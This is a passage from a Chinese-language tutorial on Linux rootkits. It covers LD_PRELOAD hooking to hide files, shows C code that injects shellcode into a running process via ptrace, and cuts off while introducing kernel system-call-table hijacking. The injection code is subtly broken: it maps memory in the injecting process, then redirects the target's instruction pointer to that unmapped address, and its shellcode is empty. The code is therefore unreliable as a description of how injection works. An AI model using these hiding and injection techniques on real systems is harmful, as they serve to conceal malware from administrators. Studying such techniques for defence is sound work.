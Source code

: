 它的原理是通过设置`LD_PRELOAD`环境变量，加载一个恶意共享库，覆盖标准库函数，比如`readdir`，用于隐藏恶意文件或目录。技术上，`LD_PRELOAD`利用Linux动态链接器的优先加载机制，将恶意函数置于标准库之前。实际用途包括隐藏恶意文件的目录列表，或伪装恶意进程的活动。优势是实现简单，只需编写少量代码并设置环境变量；但局限是依赖`LD_PRELOAD`变量，容易被检测，比如通过检查环境变量或`LD_DEBUG`日志。

##### 2.1.2 进程注入

通过将恶意代码注入合法进程（如`systemd`），隐藏行为。例如，使用`ptrace`注入代码：

```clike
void inject_code(pid_t pid, unsigned char *code, size_t len) {
    void *mem = mmap(NULL, len, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (mem == MAP_FAILED) {
        perror("mmap失败");
        return;
    }
    memcpy(mem, code, len);

    if (ptrace(PTRACE_ATTACH, pid, NULL, NULL) == -1) {
        perror("ptrace失败");
        return;
    }

    struct user_regs_struct regs;
    ptrace(PTRACE_GETREGS, pid, NULL, &regs);
    regs.rip = (unsigned long)mem;
    ptrace(PTRACE_SETREGS, pid, NULL, &regs);
    ptrace(PTRACE_DETACH, pid, NULL, NULL);
}

unsigned char sample_code[] = {
 // 简单shellcode
};

int main() {
    pid_t target_pid = 1234; // 目标进程
    inject_code(target_pid, sample_code, sizeof(sample_code));
    return 0;
}
```

它的原理是利用`ptrace`将恶意shellcode注入合法进程的内存空间，代码运行于内存，无需磁盘文件，隐蔽性高于`LD_PRELOAD`。这里展示的代码首先通过mmap分配一块可读、可写、可执行的内存，将shellcode复制进去。然后使用ptrace的PTRACE_ATTACH附加到目标进程，获取其寄存器状态（struct user_regs_struct），修改指令指针rip指向注入的代码，最后分离进程让其执行恶意代码。

* **用途**：隐藏恶意行为，伪装为合法进程。
* **挑战**：需要root权限，`ptrace`调用可能被监控。

#### 2.2 内核态Rootkit

内核态`Rootkit`运行在Ring 0，控制系统资源，隐蔽性极高。

##### 2.2.1 系统调用表劫持

通过修改`sys_call_table`替换系统调用函数。例如，替换`sys_getdents`隐藏文件：
